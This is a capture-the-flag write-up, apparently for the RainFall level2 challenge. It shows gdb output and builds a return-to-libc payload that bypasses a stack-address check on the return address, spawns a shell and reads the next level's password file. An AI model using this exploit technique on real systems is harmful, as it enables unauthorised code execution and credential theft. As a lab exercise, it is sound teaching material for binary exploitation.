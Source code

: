 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```
We find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```

We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
$> gdb ./level2
gdb> b main
gdb> r
gdb> p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
in little-endian : `\x60\xb0\xe6\xb7`

To get the "/bin/sh" string to pass in, were going to have find it inside of libc
```
(gdb) find &system, +9999999, "/bin/sh"
0xb7f8cc58
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
level2@RainFall:~$ gdb ./level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
We find that the buffer size is 80

Next, we need to construct the payload to exploit the vulnerability using the following format:
```
buffer + return address + system function address + fake return address + "/bin/sh" address from libc
```
```
$ (python -c "print 'A' * 80 + '\x44\x84\x04\x08' + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7'") > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass

```
